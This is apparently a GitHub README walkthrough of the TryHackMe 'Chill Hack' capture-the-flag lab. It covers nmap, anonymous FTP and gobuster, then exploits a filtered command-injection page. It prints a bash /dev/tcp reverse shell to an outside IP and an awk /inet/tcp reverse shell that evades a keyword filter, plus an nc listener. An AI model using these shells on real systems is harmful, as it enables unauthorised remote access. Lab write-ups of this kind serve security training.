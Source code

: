 # CHill-Hack-CTF
A step by step walk through for the Chill Hack CTF on Tryhackme

---

Link: https://tryhackme.com/room/chillhack

---

# Enumeration

Lets begin with nmap, a popular enumeration tool!

more here: https://www.kali.org/tools/nmap/

Command: `nmap <machine_ip> -sV -sC -p-` (*We use -sV to determine the service version of the services running on the open ports and we use -p- to scan all ports, because by default nmap only scans 1000 ports, we can change it to scan all 65,000 using -p-*)

Anways! Lets look at our results

![image](https://github.com/traveller404/CHill-Hack-CTF/assets/92340426/592c02b6-0eff-4f13-bd0e-a455d6db8973)

We see that there are 3 ports running, port 21, 22 and 80, and we also see that port 21 allows anonymous login, this means we can login with the username of anonymousm and provide no password, we simpyl just hit enter when queried for a password

On login, there is just 1 file, "**note.txt**", we can download this to our local machine using `mget *`

![image](https://github.com/traveller404/CHill-Hack-CTF/assets/92340426/f7ea9271-86f5-4a19-8a84-ca827491ff19)

When we open this file up using `cat note.txt` we are told there is something that is filtering certain strings that is being put in the command, we still dont know what this is but lets continue, and its from a someone called Apaar

# The webserver

Seeing as there is nowhere else to go other than the website, because port 22 is always alot more secure, we see that the webserver is hosting a template page of some sorts, and any links just lead nowhere

We can now try to scan for other directories or subdomains with dirb, or gobuster, I will use gobuster as it is alot faster and can scan for more subdomains

Command | `gobuster dir -u http://<machine_ip> -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt`

![image](https://github.com/traveller404/CHill-Hack-CTF/assets/92340426/c0f9e73f-fe50-4ef4-895c-4dbc109d0bd6)

We are led to a subdomain of /secret and on going to this we are prompted for a command, this is very insecure as attackers can execute malicious code on the host machine, seeing passwords or other harmful information

If you try to using basic commands like `ls` we are asked if we are a hacker.

![image](https://github.com/traveller404/CHill-Hack-CTF/assets/92340426/f1d0784e-e7d8-455f-9796-069854696f01)

I kept guessing commands until I used whoami, this gave me a positive response saying we are www-data, which is a pretty common username for webserver users

Realizing we cant access any more information using the webserver command prompt interface, we are going to try execute some code that can give us a reverse shell

Using a basic bash reverse shell : `sh -i >& /dev/tcp/10.18.49.141/9001 0>&1` wil give nothing because once again the words are being filtered out, my guess is that there is a script running that filters out key words like bash, nc, ls, python etc and blocks them before ever reaching the actual command line, so to bypass this we can try to use whitespaces. Whitespaces, in short, are certain characters or strings of letters, that register as basically nothing, and basically correspond to nothing but can bypass certain firewalls that block certain words, I found that the command `awk 'BEGIN {s = "/inet/tcp/0/<machine_ip>/<port>"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null` worked for me but I'm sure there are other commands that can bypass this, now all I have to do is use nc to set up a listner so `rlwrap nc -lvp <port>`

# Shell and Privesc
